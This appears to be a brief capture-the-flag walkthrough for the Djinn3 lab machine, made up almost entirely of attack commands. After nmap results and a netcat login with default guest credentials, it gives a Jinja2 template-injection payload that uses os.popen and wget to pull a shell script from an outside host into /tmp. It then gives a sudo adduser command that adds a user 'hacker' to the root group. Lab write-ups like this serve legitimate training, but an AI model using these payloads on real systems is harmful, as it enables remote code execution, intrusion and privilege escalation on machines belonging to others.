 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Djinn3
# 28/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    lighttpd 1.4.45
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
31337/tcp open  Elite?

└─$ nc 192.168.110.102 31337
username> guest
password> guest
//got access

> open
Title: {{7*'7'}}
Description: {{7*'7'}}
>

{{config.__class__.__init__.__globals__['os'].popen('wget http://192.168.49.110/shell.py -O /tmp/shell.py').read()}}


ssh saint@192.168.97.102 
sudo -u root /usr/sbin/adduser hacker --gid 0